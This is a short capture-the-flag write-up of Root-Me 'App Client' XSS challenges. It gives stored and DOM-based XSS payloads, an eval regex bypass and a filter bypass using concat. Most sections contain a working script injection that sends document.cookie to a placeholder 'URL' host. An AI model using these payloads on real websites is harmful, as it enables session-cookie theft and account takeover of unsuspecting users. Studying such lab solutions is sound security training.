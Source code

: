 # Rootme-App-Client
App Client Challenges Summary

### XSS- Stored 1
Post a message with content is the following:
`<script>window.location.href="URL?c="+document.cookie</script>
`
### XSS - Stored 2
Post a random message, then Ctrl + U to view source code. 

There are 2 style definitions : `invite` & `admin`.

Besides, when open cookies manage, we see a value of `status` is `invite`. 

Change this value into `admin` and try posting a message, this change will affect to tag `i` after message title.

So we're going to exploit this.

Change `status` cookie into `"><script>window.location.href="URL?c="+document.cookie</script>` and post a message

### XSS DOM Based - Introduction

Submit a random number, we will see url has a param `number`. 

Ctrl + U to view source code. `number` variable get value from URL param.

Exploit this.

Submit number `'; window.location.href="URL?c="+document.cookie//`. 

This will break `''` of `number` variable, add `fetch` into script.

Submit URL in `Contact` page with param `RootmeURL?number='; window.location.href="URL?c="+document.cookie//`

### XSS DOM Based - Eval
This web use regex  /^\d+[\+|\-|\*|\/]\d+/ to check input. We can bypass by using the following input:

``1*24+";window.location.href=`URL?c=`+document.cookie;//"``

### XSS DOM Based - Filters Bypass
This web filters `;` or `+`. So we use `concat` instead.

It also filters `https` to check redirect. 

``'.concat(eval('document.location=`//URL?c=${document.cookie}`'))//``
